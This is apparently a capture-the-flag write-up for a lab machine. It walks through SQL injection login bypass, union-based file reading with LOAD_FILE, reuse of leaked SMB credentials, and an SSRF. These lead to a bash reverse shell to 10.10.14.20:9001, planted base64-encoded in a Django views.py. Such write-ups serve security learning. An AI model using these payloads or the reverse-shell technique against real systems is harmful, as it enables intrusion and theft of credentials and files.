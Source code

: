 I'll start with a port scan using my alias `fscan` which launches a default script and version scan against the ports found from a full port scan.

<img src='Images/fscan.png'>

We see ssh on port 22, apache serving a website on port 80 and samba on 139/445. I'll quickly see what I can do over smb.

<img src='Images/smbmap.png'>

I don't have any access here. I'll revisit if I find some credentials.

<img src='Images/gobuster.png'>

Gobuster finds a directory called `administrative`. It leads to a login page:

<img src='Images/administrative.png'>

I'll test for SQL injection with the payload `admin'-- -`. This logs me in. I suspect the query is along the lines of 

`select * from users where username={username} and password=md5({password})`

so my injection malforms the query into

`select * from users where username=admin` 

which authenticates me as the admin user. I'll come back and examine the injection further if need be.

I get redirected to `/dashboard`.

<img src='Images/dashboard.png'>

clicking around I find a `/stories` directory.

<img src='Images/stories.png'>

It has the option to upload a `.jpg` file from the local computer or to upload a file from a url. 

<img src='Images/storiesadd.png'>

I'll upload a `jpg` and intercept the request in burpsuite. I'll append `.php` to the filename, change the mimetype to `application/x-php` and append a simple command injection payload after the magic bytes.

<img src='Images/bugmodified.png'>

I can see the file has sucessfuly upload to the `/static/img` folder. 

<img src='Images/staticimg.png'>

Visiting the url `static/img/bug.jpg.php?cmd=id` returns an error however. It seems the webpage isn't configured to execute `php` despite the extension.

<img src='Images/fail.png'>

I'll revisit the sql injection to see what I can do here. I know the username parameter is injectable. I'll try the payload `test' union select 1,2,3,4,5,6` for the username and a random password. Intercepting the response in burpsuite I see `2` gets reflected back onto the webpage as `welcome 2`

<img src='Images/union.png'>

Next I'll try changing the 2 for `LOAD_FILE('/etc/passwd')` and I see the contents of `/etc/passwd` are returned so I have LFI.

<img src='Images/loadfile.png'>

I'll create a quick python script to send the injection payload including the specified file as the first argument of the script to the login page, parse out the file contents and save the file. I'll use mysql's `TO_BASE64()` function to return the base64 encoded file to avoid HTML entity encoding in the response HTML.

<img src='Images/script.png'>

I'll check the website configuration by including the file `/etc/apache2/sites-enabled/000-default.conf`

<img src='Images/sites-enabled.png'>

It shows the root of the website is `/var/www/writer.htb` and there's a `.wsgi` file which I'll check out. It also points to a development site on port `8080` only accessible through localhost. If a can find an SSRF I could interact with this site.

<img src='Images/wsgi.png'>

There's a comment about an `__init__.py` file which I'll read next. The exact location of the file is a bit ambiguous as `from writer import...` could mean a file `writer.py` or a parent directory `/writer`, but trying the path `/var/www/writer.htb/__init__.py` works. This file leaks some credentials:

<img src='Images/__init__.png'>

From `/etc/passwd` I saw the user `kyle`. I'll try the credentials `kyle:ToughPasswordToCrack` against smb.

<img src='Images/authsmbmap.png'>

The credentials work and grant me read/write access to the `writer2_project` share. This is likely the development site only accessible from localhost on port `8080`. I'll use `smbclient //10.10.11.101/writer2_project -u kyle -p ToughPasswordToCrack` to access the share. This is interesting as I could write a payload into the share and if I can cause it to execute on the server I'll have RCE. Listing the contents of the share shows 

<img src='Images/writer_proj.png'>

`writer_web/urls.py` contains

```
from django.conf.urls import url
from writer_web import views

urlpatterns = [
    url(r'^$', views.home_page, name='home'),
]
```

This says any URI will redirect to `/home` and load `views.home_page`. This file imports `view.py` which contains the `home_page` function

```
from django.shortcuts import render
from django.views.generic import TemplateView

def home_page(request):
    template_name = "index.html"
    return render(request,template_name)
```

so I can write a reverse shell into the `home_page` function and it will execute when I load any page on the site. Since this site isn't accessible externally I'll need an SSRF to trigger the payload. An SSRF is when you send a specially crafted request to a server and the server executes a request on your behalf. This allows access to functionality you can't directly obtain. Luckily, when we uploaded the `.jpg` files to the `/stories` directory there was an option to upload from a url. If we get the server to process a request to `127.0.0.1:8080` we'll be able to execute our payload.

I'll use the reverse shell `/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.20/9001 0>&1"`, base64 encode it to avoid special characters and use `os.sytem(.)` to execute shell commands. All together `views.py` becomes

```
from django.shortcuts import render
from django.views.generic import TemplateView
import os

def home_page(request):
    os.system('echo -n L2Jpbi9iYXNoIC1jICIvYmluL2Jhc2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuMjAvOTAwMSAwPiYxIg== | base64 -d | bash')
    template_name = "index.html"
    return render(request,template_name)
```

I'll upload this to the share with 

`smb: \writer_web\> put views.py`

and start a listener on port `9001`.

On `/stories/add` I'll upload a file from url. I just put `http://google.com` as there's some client side filtering, but I'll intercept the request in burpsuite and modify the url there. I know from the source code the filename/url must contain `.jpg` so I'll put the `image_url` as `http://127.0.01:8080/?.jpg`

<img src='Images/ssrf.png'>

and on my listener I get a connection as `www-data`

<img src='Images/rev.png'>



